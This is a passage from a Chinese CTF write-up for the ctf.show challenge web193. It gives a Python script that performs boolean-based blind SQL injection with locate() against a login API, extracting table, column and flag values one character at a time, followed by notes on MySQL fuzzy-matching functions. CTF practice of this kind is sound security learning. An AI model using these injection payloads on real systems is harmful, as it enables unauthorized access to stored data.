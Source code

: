 regexp() 函数是正则匹配

## web193*

使用模糊查询

```python
# @Author:Y4tacker
import requests
# 应该还可以用instr等函数，LOCATE、POSITION、INSTR、FIND_IN_SET、IN、LIKE
url = "http://9f9cf77b-6342-49a0-9815-3f26261aeb12.challenge.ctf.show/api/"
final = ""
stttr = "flag{}-_1234567890qwertyuiopsdhjkzxcvbnm"
for i in range(1,45):
    for j in stttr:
        final += j
        # 查表名-ctfshow_flxg
        # payload = f"admin' and if(locate('{final}',(select table_name from information_schema.tables where table_schema=database() limit 0,1))=1,1,2)='1"
        # 查字段-f1ag
        # payload = f"admin' and if(locate('{final}',(select column_name from information_schema.columns where table_name='ctfshow_flxg' limit 1,1))=1,1,2)='1"
        payload = f"admin' and if(locate('{final}',(select f1ag from ctfshow_flxg limit 0,1))=1,1,2)='1"
        data = {
            'username': payload,
            'password': '1'
        }
        r = requests.post(url,data=data)
        if "密码错误" == r.json()['msg']:
            print(final)
        else:
            final = final[:-1]
```

```
Locate(str,sub) > 0，表示sub字符串包含str字符串

Locate(str,sub) = 0，表示sub字符串不包含str字符串
```

**mysql的instr函数有着相似的功能，instr(str,sub)返回的是字符串sub在字符串str第一次出现的位置，其中instr(str,sub) = 0 表示字符串str不包含字符串sub**

```
select * from stu s where s.name like concat('%',#{name},'%') ;
 
select * from stu s where instr(s.name,#{name}) > 0;
 
select * from stu s where locate(#{name},s.name) > 0;
```

## web194
